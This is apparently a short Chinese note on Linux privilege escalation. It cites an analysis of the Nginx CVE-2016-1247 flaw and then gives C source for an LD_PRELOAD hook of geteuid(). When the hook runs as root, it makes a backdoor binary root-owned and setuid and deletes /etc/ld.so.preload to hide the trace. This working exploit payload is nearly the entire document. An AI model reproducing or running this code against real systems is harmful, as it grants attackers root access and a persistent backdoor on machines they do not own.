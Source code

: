 # 提权

参考文章

1. [Nginx权限提升漏洞(CVE-2016-1247) 分析](http://blog.knownsec.com/2016/11/nginx-exploit-deb-root-privesc-cve-2016-1247/)

```c++
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
#include <dlfcn.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

/*hook原geteuid()函数*/
uid_t geteuid(void) {
    //定义函数指针变量
    static uid_t  (*old_geteuid)();
    //返回原geteuid()函数的指针
    old_geteuid = dlsym(RTLD_NEXT, "geteuid");
    //在调用原geteuid()函数的同时执行想要的恶意操作
    if ( old_geteuid() == 0 ) {
        chown("$BACKDOORPATH", 0, 0);
        chmod("$BACKDOORPATH", 04777);
        unlink("/etc/ld.so.preload");
    }
    return old_geteuid();
}
```